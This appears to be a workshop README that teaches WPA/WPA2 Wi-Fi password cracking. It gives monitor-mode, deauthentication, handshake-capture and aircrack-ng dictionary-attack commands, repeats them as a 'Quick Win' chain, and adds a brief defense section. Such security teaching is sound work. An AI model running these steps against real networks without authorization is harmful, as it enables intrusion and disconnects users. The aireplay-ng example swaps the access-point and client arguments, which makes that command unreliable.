






# Warning
This workshop is for educational purposes only.
Ethical hacking is conducted with the explicit permission of the system owner to improve security.

# Table of Contents

- [Warning](#warning)
- [Table of Contents](#table-of-contents)
- [Introduction](#introduction)
- [Workshop](#workshop)
  - [Initiating Monitor Mode](#initiating-monitor-mode)
  - [Information Gathering](#information-gathering)
  - [Handshake Logging](#handshake-logging)
  - [Password Cracking](#password-cracking)
  - [Defense](#defense)
- [Quick Win](#quick-win)
- [Conclusion](#conclusion)
- [Resources](#resources)

# Introduction

WiFi standards emerged in 1997 under the name IEEE 802.11 standard. The security mechanism proposed by this first standard was the optional activation of the WEP protocol (Wired Equivalent Privacy). By 2001, vulnerabilities were discovered within this protocol, allowing a remote attacker to retrieve the cryptographic keys used to encrypt communications. Now considered weak and obsolete, WEP was replaced by WPA (WiFi Protected Access) in 2003.

The first version of WPA used the TKIP (Temporal Key Integrity Protocol) protocol, which corrected some of WEP's weaknesses while retaining the same encryption algorithm (RC4) for hardware compatibility reasons. However, WPA-TKIP also became obsolete as attacks that could decrypt certain messages within minutes were published starting in 2008. It is also possible to use the AES algorithm to encrypt WPA network communications, but this does not fix all known vulnerabilities.

The currently recommended protocol for securing a WiFi network is WPA2, released in 2004, shortly after WPA. This protocol is much more robust than its predecessors, but it still has certain vulnerabilities that we will discuss in this article. WPA3 protocol was released in 2018 to address the vulnerabilities of WPA2. It is still very little used because WPA2 offers a satisfactory level of security, and some devices are incompatible with this new security mechanism. Weaknesses were also discovered in this protocol shortly after its publication.

**Known Vulnerabilities in WPA and WPA2:**

Both WPA and WPA2 were designed to enhance Wi-Fi network security compared to the earlier WEP (Wired Equivalent Privacy) protocol. However, they are not immune to certain vulnerabilities:

   - TKIP Weaknesses (WPA): WPA's use of Temporal Key Integrity Protocol (TKIP), while providing dynamic key rotation, has vulnerabilities that have been exploited over time, reducing its security.

   - Passphrase Vulnerabilities: Like any passphrase-based system, both WPA and WPA2 are susceptible to dictionary and brute-force attacks if weak or easily guessable passphrases are used.

  - Rainbow Tables: Attackers can employ rainbow tables, precomputed tables of possible password combinations, to quickly identify the passphrase associated with a captured WPA/WPA2 handshake.

   - KRACK Attack (WPA2): In 2017, the Key Reinstallation Attack (KRACK) was discovered, affecting WPA2. This attack could allow an attacker to intercept and manipulate data traffic, potentially leading to unauthorized access.

   - Device Vulnerabilities (WPA2): Some devices may have vulnerabilities in their implementations of WPA2. Regular updates and patches are crucial for maintaining security.

   - Offline Dictionary Attacks (WPA2): Attackers can capture a WPA2 handshake and perform offline dictionary attacks, attempting to crack the passphrase at their convenience.

To maintain Wi-Fi network security, it is essential to use strong, complex passphrases, stay informed about these vulnerabilities, and apply security best practices. Regularly updating network equipment and software is also critical in mitigating associated risks.

<p style="text-align:center;">
  
</p>
<p style="text-align:center;">
   <a href="https://www.youtube.com/watch?v=yytbaZ8cGYE">Explicative video</a>
</p>
<p style="text-align:center;">
   <a href="https://www.xmco.fr/wp-content/uploads/2022/12/XMCO-ActuSecu-58-Conti-Lapsus-WiFi.pdf">Explicative document (p.30)</a>
</p>

# Workshop

For this workshop, all commands are run with root privileges. Therefore, please ensure that you are logged in as the root user or add 'sudo' before each command to execute them with the necessary permissions.

## Initiating Monitor Mode
First of all, we need to start the monitor mode on our wireless interface. To do this, we will use the `airmon-ng` command. This command is part of the `aircrack-ng` package. If you don't have it installed, you can install it with the following command:

```bash
sudo apt install aircrack-ng
```

1. **Find the name of your card interface:** 
   In a terminal window, run the `airmon-ng` command. This tool come with Kali Linux as a part of the aircrack-ng package, and will show you the names of the connected Wi-Fi interface(s). You'll want to take note of what you see under the "Interface" header for your card.

    ***If you don't see an interface name, your Wi-Fi card doesn't support monitoring. You need to have a Wi-Fi card that allows monitoring (RFMON)***

   <p style="text-align:center;">
      
   </p>

1. **Put your card in monitor mode:** 
   Run `airmon-ng start wlan0` to start monitoring the network. If the name of your Wi-Fi interface isn't wlan0, replace that part of the command with the correct name. This gives you a new virtual interface name, which will usually be something like mon0, which you'll see next to "(monitor mode enabled)."

    ***If you see a message that says "Found processes that could cause trouble," run `airmon-ng check kill` to kill them.***

   <p style="text-align:center;">
      
   </p>

## Information Gathering
1. **View Wi-Fi Router Data:** 
   Run `airodump-ng wlan0mon` to view the results. Replace wlan0mon with the correct virtual interface name if that's not what you saw earlier. This displays a data table for all Wi-Fi routers in range.

   <p style="text-align:center;">
      
   </p>

2. **Find the router you want to hack:** 
   At the end of each string of text, you'll see a router name. Make sure the router is using WPA or WPA2 security. If you see "WPA" or "WPA2" in the "ENC" column, you can proceed.

   <p style="text-align:center;">
      
   </p>

3. **Find the BSSID and channel number of the router:** 
   Now you'll want to make note of the values of the "BSSID" and "CH" fields for the router you want to hack. These pieces of information are to the left of the network's name.

4. **Monitor the network for a handshake:** 
   A "handshake" occurs when an item connects to a network (e.g., when your computer connects to a router). You need to wait until a handshake occurs so you capture the data necessary to crack the password. To start monitoring, run the following command:
`airodump-ng -c number --bssid xx:xx:xx:xx:xx:xx -w ~/Documents/Wi-Fi/ wlan0mon`

   Replace the word number with the channel number you saw, and the xx:xx:xx:xx:xx:xx with the BSSID. As long as this command stays running, you'll be monitoring for all connections and new handshakes.

   <p style="text-align:center;">
      
   </p>

## Handshake Logging
1. **Understand what a deauth attack does:** 
   A deauth attack sends deauthentication packets to the router you're trying to break into, causing users to disconnect and requiring them to log back in. When a user logs back in, you will be provided with a handshake. If you don't do a deauth attack, you might have to wait around for a long time for a handshake to complete—you'll need that handshake to crack the password.

   If you already see a line with the tag "WPA handshake:" followed by a MAC address in the output of the airodump-ng command, skip to cracking password section. You have what you need to crack the password and don't need to send deauth packets.

2. **Wait for something to connect to the network: **
   Once you see two BSSID addresses appear next to each other—one labeled BSSID (the Wi-Fi router) and the other labeled STATION (the computer or other device)—this this means a client is connected. To force them into a handshake, you'll now send them deauth packets that kill their connection.

   **Critical warning: this is an active action, which may be illegal without explicit network authorization!**

   <p style="text-align:center;">
      
   </p>

3. **Send deauth packets to force a handshake:** 
   Open a new terminal. Make sure airodump-ng is still running in original terminal window, and drag it to another place on your desktop so both terminals are visible.

   Run this command, replacing STATION BSSID with the BSSID of the client that connected to the network, and NETWORK BSSID with the router's BSSID: `aireplay-ng -0 2 -a STATION BSSID -c NETWORK BSSID wlan0mon`.
   This command will send 2 deauth packets to disconnect the client from the network.

   If needed, you can change the channel of your Wi-Fi adapter like this: `iw wlan0mon set channel 1`.

   Don't try to send more than this, sending too many packets could prevent the client from reconnecting and generating the handshake.
   As long as you're close enough to the target client, they'll be disconnected from the router and forced to reconnect with a handshake. If this doesn't work, move closer to the client.
   As soon as the client reconnects, all of the information you'll need to crack the password will be available.

4. **Wait for the handshake to be captured:**
   In the original terminal window, you'll see a line that says "WPA handshake:" followed by a MAC address in the top-right corner. This means you've captured the handshake and are ready to crack the password. You can now close all your terminals. You can stop an action by using `ctrl+c`.

## Password Cracking
There are plenty of tools for cracking a Wi-Fi password. We will see one way to do so.

Once you have captured the handshake, you can use aircrack-ng to crack the password. Run the following command, replacing HANDSHAKE.cap with the name of the file that contains the handshake:


```bash
aircrack-ng HANDSHAKE.cap -w /usr/share/wordlists/rockyou.txt
```
​
This command will use the rockyou.txt wordlist to try and crack the password. The rockyou.txt wordlist is a list of the most commonly used passwords, and it's included with aircrack-ng.

If the password is in the wordlist, aircrack-ng will display it in the terminal window. If the password isn't in the wordlist, you can try using a different wordlist or creating your own.

## Defense
1. **Detect**

To identify intrusions on your network, simply go to your router's web page and check the connected devices.

   <p style="text-align:center;">
      
   </p>

2. **Evict**

Once you have detected an imposter, you can block its MAC address.

   <p style="text-align:center;">
      
   </p>

   <p style="text-align:center;">
      
   </p>

   <p style="text-align:center;">
      
   </p>

3. **Harden**

Now, strengthen your password and reconnect all your devices.

   <p style="text-align:center;">
      
   </p>

Also, you can activate Protected Management Frames (PMF) in order to avoid deauthentication from unverified users.

# Quick Win
1. **Find the name of your card interface:**
   ```bash
   airmon-ng
   ```
2. **Put your card in monitor mode:**
   ```bash
   airmon-ng start <card>
   ```
3. **View Wi-Fi Router Data:**
   ```bash
   airodump-ng <monitor>
   ```
4. **Monitor the network for a handshake:**
   ```bash
   airodump-ng -c <channel> --bssid <MAC address> -w <location to store pcap files> <monitor>
   ````
5. **Send deauth packets to force a handshake:**
   ```bash
   aireplay-ng -0 2 -a <station BSSID> -c <network BSSID> <monitor>
   ```
6. **Password Cracking**
   ```bash
   aircrack-ng <pcap file> -w /usr/share/wordlists/rockyou.txt
   ```

# Conclusion

In this workshop, you have been introduced to ethical hacking, learned about WPA and WPA2, and gained practical knowledge about initiating monitor mode, gathering information, logging handshakes, and password cracking. Having understood the vulnerabilities, you have learned to detect a threat, then to evict it, and finally, to harden your network. 

Ethical hacking is a valuable skill when used responsibly and with explicit authorization from network owners. Continue to explore and apply these techniques in an ethical and legal manner to enhance your cybersecurity knowledge and contribute to a safer digital environment.

# Resources
* Wikihow website: https://www.wikihow.com/Hack-WPA/WPA2-Wi-Fi-with-Kali-Linux
* https://www.youtube.com/watch?v=yytbaZ8cGYE
* XMCO: https://www.xmco.fr/wp-content/uploads/2022/12/XMCO-ActuSecu-58-Conti-Lapsus-WiFi.pdf